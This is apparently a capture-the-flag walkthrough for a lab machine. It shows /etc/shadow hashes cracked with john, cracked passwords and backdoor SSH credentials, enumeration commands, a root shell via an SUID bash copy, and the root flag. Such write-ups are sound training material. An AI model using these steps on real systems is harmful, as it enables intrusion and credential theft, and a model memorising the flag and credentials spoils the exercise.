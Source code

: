 Examine capture file
Copy hashes from /etc/shadow for offline cracking with fasttrack.txt in john
ound 4 passwords
	• secret12         (bee)
	• abcd123          (szymex)
	• 1qaz2wsx         (muirland)
secuirty3        (paradox)

# Initial access
The hacker left a backdoor on **SSH port 2222**
Username: `james`
Password:`november16`

![[9ec9a0c9ac1d40e7966281e38594e7eb.png]]
# Enumeration
## Got kernel version
```
uname -a
```
## search for Linux Kernel 4.15 exploits
```
$ searchsploit linux 4.15
```
![[222b2b8221514397b12bb42fa1b6bd17.png]]

## Look around the file system
![[14ad1ed7b0de4b78ad5d7dd55c5665f9.png]]

### Abusing .suid_bash
![[0c17acc4b5e0495f959560adf18b733d.png]]

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt
thm{d53b2684f169360bb9606c333873144d}
```

root flag `thm{d53b2684f169360bb9606c333873144d}`